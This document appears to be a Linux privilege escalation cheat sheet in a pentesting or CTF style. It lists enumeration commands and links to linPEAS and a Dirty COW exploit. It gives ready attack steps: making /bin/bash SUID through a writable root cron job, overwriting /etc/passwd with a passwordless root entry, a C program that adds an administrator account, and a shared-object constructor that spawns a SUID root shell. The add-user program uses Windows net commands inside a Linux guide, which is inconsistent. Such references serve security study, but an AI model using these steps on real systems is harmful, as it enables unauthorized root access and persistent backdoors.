 ## Good Reads
```
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
https://github.com/janithmalinga/PayloadsAllTheThings
https://book.hacktricks.xyz/linux-unix/privilege-escalation
```
## Manual Enumeration

## Enumerate User Info

### Logged in user
```
id
whoami
pwd
```

### Find OS version
```
cat /etc/*-release
uname -a
lsb_release -a
```

### Other users
```
cat /etc/passwd
grep -vE "nologin|false" /etc/passwd
```
### curently running processes
```
ps aux
```
### What's installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
uname -a
```

## Enumerate Network

### Find IP and associated IPs
```
ifconfig
ip a
```

### Open Ports
```
netstat -ano
```

## In privilage escalation we need to find answers first to below questions
```
What user files do we have access to?
What configurations do we have access to?
Any incorrect file permissions?
What programs are custom? Any SUID? SGID?
What's scheduled to run?
Any hardcoded credentials? Where are credentials kept?
```

## Automated Enumeration
```
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh
https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
```

### User editable cronjobs
```
crontab -l
```

### Application based cron jobs
```
ls -all /etc/cron.d
```
### if you find a cronjob running as root but can be editable run this command
```
chmod u+s /bin/bash
and then this,
/bin/bash -p
```

### Writable /etc/passwd file found
```
“root::0:0:root:/root:/bin/bash” > /etc/passwd
```

### Try dirty cow exploit
```
https://github.com/FireFart/dirtycow/blob/master/dirty.c
```

## SUID checker
```
find / -type f -perm -04000 -ls 2> /dev/null
find / \( -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
```

### If it is possible to run a c executable, run useradd.c file
```
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user janith janith@123 /add && net localgroup administrators janith /add");
  return 0;
}
```

### If you found a shared object, create this c file to inject
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

